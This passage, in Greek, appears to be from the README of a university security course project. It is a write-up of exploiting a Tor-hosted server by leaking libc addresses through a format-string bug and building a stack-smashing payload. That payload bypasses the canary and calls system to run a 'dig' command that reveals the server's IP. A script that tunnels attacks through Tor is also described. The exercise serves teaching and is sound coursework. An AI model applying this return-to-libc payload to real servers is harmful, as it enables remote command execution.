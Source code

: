 ![alt text](https://github.com/chatziko-ys13/2021-project-2-weaponized-assault-penguins/blob/master/img/Screenshot%202021-07-13%20at%206.06.39%20PM.png)

Έπειτα ξέροντας ότι βρίσκεται στην θέση 0xf7b6d2e0 υποθέσαμε ότι υπόλοιπες συναρτήσεις της libc θα ξεκινάνε με κοινό πρόθεμα.'Ετσι τρέξαμε αυτό το [script](https://github.com/chatziko-ys13/2021-project-2-weaponized-assault-penguins/blob/master/scripts/find_libc_function.py) το οποίο έλεγχε όλες τις τιμές που κάνει pop η printf από την θέση 1 έως 1000 και αν είχαν κοινό πρόθεμα με την system τότε εκτύπωνε την θέση που την βρήκε και την τιμή που βρήκε σε αυτήν την θέση.Τα αποτελέσματα ήταν αυτά

![alt text](https://github.com/chatziko-ys13/2021-project-2-weaponized-assault-penguins/blob/master/img/Screenshot%202021-07-13%20at%206.08.00%20PM.png)

Άρα παίρνοντας το 115ο στοιχείο, υποθετικά μπορούσαμε να υπολογίσουμε το offset ( 0xf7b6d2e0 - 0xf7b48f21).Ακριβώς όπως υπολογίζαμε τις διευθύνσεις της serve_ultimate και της send_file στα προηγούμενα ερωτήματα, τώρα υπολογίζουμε της system παίρνοντας το 115ο στοιχείο και προσθέτωντας το offset που βρήκαμε.

Τέλος το payload σύμφωνα με το άρθρο και σύμφωνα με τα προηγουμένα ερωτήματα θα είναι το εξής:

  payload = 15 * post_data + canary + 3 * post_data + system_address + post_data + argument_address

Το μόνο που δεν έχουμε από τα παραπάνω είναι το argument_address το οποίο είναι ένας pointer στην εντολή που θέλουμε να εκτελεστεί από την system.Στην περίπτωση μας θέλαμε να εκτελέσουμε την "dig +short myip.opendns.com @resolver1.opendns.com", οπότε έπρεπε να την γράψουμε κάπου και μετά να δείξουμε στην θέση που την γράψαμε.Αποφασίσαμε να την γράψουμε απλά μετά το payload.Οπότε τελικά το  payload διαμορφώθηκε ως εξής:

  payload = 15 * post_data + canary + 3 * post_data + system_address + post_data + argument_address + b'dig +short myip.opendns.com @resolver1.opendns.com' 

όπου argument_address = post_data + 0x58 ( 0x58 = 88 bytes μετά την post_data)

Κάναμε το curl με το παραπάνω payload και βρήκαμε την ip 54.159.81.179.
Άρα η απάντηση στο 5 ήταν c454.159.81.179.
      
#### Script

Το [run.sh](https://github.com/chatziko-ys13/2021-project-2-weaponized-assault-penguins/blob/master/scripts/run.sh) ξεκινάει ανοίγοντας tor ( 9050 ) και socat στο zwt6vcp6d5tao7tbe3je6a2q4pwdfqli62ekuhjo55c7pqlet3brutqd.onion (127.0.0.1:8000).Έπειτα εκτελεί το python script [attack_3_4_5.py](https://github.com/chatziko-ys13/2021-project-2-weaponized-assault-penguins/blob/master/scripts/attack_3_4_5.py) .Σε Δοκιμάστε επίσης να δώσετε exec δικαιώματα στο script σε περίπτωση που δεν σας τρέχει.Υπάρχουν δύο περιπτώσεις στις οποίες δεν τρέχει.Αυτές είναι:
  - αν κάποιο από τα bytes του canary,post_data,serve_ultimate_address είναι 0 ( ValueError: embedded null byte) 
  - αν έχουν " ή `.
  
Αν πέσετε σε κάποια από τις δύο περιπτώσεις θα σας προτείναμε να περιμένετε λίγο και να το ξανατρέξετε για να αλλάξουν οι τιμές των παραπάνω.   
Επίσης για να τρέχουν όλα τα ερωτήματα το ένα μετά το άλλο έχουμε βάλει timeout στο κάθε curl 3".Αν κάτι δεν προλάβει να εμφανιστεί μπορείτε να το αυξήσετε 
αλλάζοντας την τιμή μετά το flag --max-time .    


Ευχαριστούμε πολύ για το μάθημα! Καλό καλοκαίρι!
